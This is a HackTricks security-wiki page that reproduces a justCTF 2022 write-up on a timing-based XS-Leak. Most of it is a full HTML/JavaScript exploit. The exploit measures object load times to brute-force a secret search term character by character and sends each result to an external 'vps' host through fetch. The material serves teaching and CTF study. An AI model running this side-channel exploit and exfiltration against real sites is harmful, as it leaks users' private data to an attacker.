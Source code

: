 # performance.now + Force heavy task

{{#include /banners/hacktricks-training.md}}



**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

> [!WARNING]
> Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.

```html
<!DOCTYPE html>
<html>
  <head> </head>
  <body>
    <img src="https://deelay.me/30000/https://example.com" />
    <script>
      fetch("https://deelay.me/30000/https://example.com")

      function send(data) {
        fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
      }

      function leak(char, callback) {
        return new Promise((resolve) => {
          let ss = "just_random_string"
          let url =
            `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
            ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement("object")
          object.width = "2000px"
          object.height = "2000px"
          object.data = url
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log("Error event triggered")
          document.body.appendChild(object)
        })
      }

      send("start")

      let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
      let flag = "justCTF{"

      async function main() {
        let found = 0
        let notFound = 0
        for (let i = 0; i < 3; i++) {
          await leak("..")
        }
        for (let i = 0; i < 3; i++) {
          found += await leak("justCTF")
        }
        for (let i = 0; i < 3; i++) {
          notFound += await leak("NOT_FOUND123")
        }

        found /= 3
        notFound /= 3

        send("found flag:" + found)
        send("not found flag:" + notFound)

        let threshold = found - (found - notFound) / 2
        send("threshold:" + threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while (true) {
          if (flag[flag.length - 1] === "}") {
            break
          }
          for (let char of charset) {
            let trying = flag + char
            let time = 0
            for (let i = 0; i < 3; i++) {
              time += await leak(trying)
            }
            time /= 3
            send("char:" + trying + ",time:" + time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
    </script>
  </body>
</html>
```

{{#include ../../banners/hacktricks-training.md}}


